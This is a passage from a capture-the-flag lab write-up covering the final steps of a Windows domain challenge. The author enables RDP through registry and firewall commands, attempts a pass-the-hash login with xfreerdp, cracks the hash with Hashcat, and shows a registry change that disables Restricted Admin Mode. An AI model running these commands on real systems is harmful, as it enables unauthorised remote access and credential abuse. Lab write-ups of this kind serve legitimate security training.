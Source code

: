 After talking to the creator of the box, he suggested logging into the machine via RDP. This approach works because EFS-encrypted files are automatically decrypted upon a successful login with the associated account, in this case, the Admin.

First, we need to enable RDP access:

```powershell
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\" -Name "fDenyTSConnections" -Value 0

Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\" -Name "AllowRemoteRPC" -Value 1

Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\" -Name "UserAuthentication" -Value 1
```

```bash
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
net localgroup "Remote Desktop Users" Administrator /add
```

I did this within evil-winrm, we could also do it via NXC:

![RDP Enable](/images/trusted/rdp38.png)

Using `xfreerdp`, we can leverage pass-the-hash to log in as the Administrator:

```bash
xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

Unfortunately, authentication via pass-the-hash was unsuccessful. To overcome this, I attempted to crack the hash using Hashcat. Within seconds, the hash was cracked, revealing the plaintext password.

![Hashcat Password](/images/trusted/hashcat40.png)

Now that we have the password, we can authenticate using RDP and therefore bypass the EFS issue and read the root.txt flag:

```bash
xfreerdp /u:Administrator /v:trusteddc.trusted.vl /cert:ignore
```

![Flag](/images/trusted/flag41.png)

Since Windows Server 2012 R2, the "Restricted Admin Mode" is enabled by default for Administrator accounts, which prevents authentication using pass-the-hash (PTH). To work around this in the future, we can modify the registry to disable the feature, allowing PTH authentication.

The required registry key addition is as follows:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

We have now successfully completed the `Trusted Chain`.
It was a highly demanding but rewarding experience, to learn and explore advanced techniques.

Many thanks to the box creator, `r0BIT`, for publishing such a challenge.

![Pwned](/images/trusted/pwned42.jpeg)